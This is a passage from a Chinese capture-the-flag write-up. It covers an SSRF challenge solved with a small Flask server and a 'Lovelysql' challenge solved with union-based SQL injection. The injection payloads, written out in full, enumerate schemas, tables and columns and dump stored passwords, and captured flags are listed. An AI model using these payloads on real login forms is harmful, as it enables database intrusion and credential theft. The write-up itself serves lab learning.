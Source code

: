 ```php
echo $arr[($counter-1)%count($arr)];
?>
```

```python
# Python版
import flask
import datetime

server=flask.Flask(__name__)
data = "If I knew where I would die, I would never go there."
data = data.split(" ")
data.reverse()

@server.route('/',methods=['post','get'])
def index():
    return data.pop()

server.run(port=8888)
```
访问 http://ctf1.redteam.today:8081/?url=http%3a%2f%2fserver_ip%2findex.php 得到flag
```
Syc{ede405bb37a47c4c60abd4c0a8f36595}
```

### 8.服务端检测系统
> 出题人：淚笑
> emm，自己看
> 地址:http://148.70.59.198:41256/
> hint:ssrf && crlf




### 9.Lovelysql
> 出题人：cl4y
> 上次是我粗心大意，看来不能直接放在网页上了！
> 地址:http://118.25.14.40:8101/

毫无过滤的联合查询注入，“#”可以注释sql
```
# 数据库名
username=admin&password=admin'union select 1,2,group_concat(schema_name) from information_schema.schemata#

# 表名
username=admin&password=admin'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#

# 列名
username=admin&password=admin'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'#

# 字段
username=admin&password=admin'union select 1,2,group_concat(password) from l0ve1ysq1#
```
最后得到flag
```
Syc{Ohhh_y0u_foUnd_m3}
```
